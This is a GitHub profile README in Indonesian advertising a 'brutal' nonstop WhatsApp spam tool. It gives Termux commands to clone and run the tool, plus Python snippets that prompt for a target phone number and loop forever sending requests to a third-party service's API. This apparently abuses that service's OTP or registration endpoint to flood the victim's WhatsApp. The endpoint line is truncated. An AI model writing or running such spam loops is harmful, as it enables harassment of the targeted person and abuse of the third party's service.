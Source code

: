 # Made By Mr. E-Cyber Team
Spam Brutal WhatsApp 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summa>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/teamcyber-glitch/ToolsWA
  bash install.sh
  cd Tools-WhatsApp
  python main.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  import os,sys,time,requests,json
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

  <details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  import os,sys,time,requests,json
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/r>
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

<!---
teamcyber-glitch/teamcyber-glitch is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
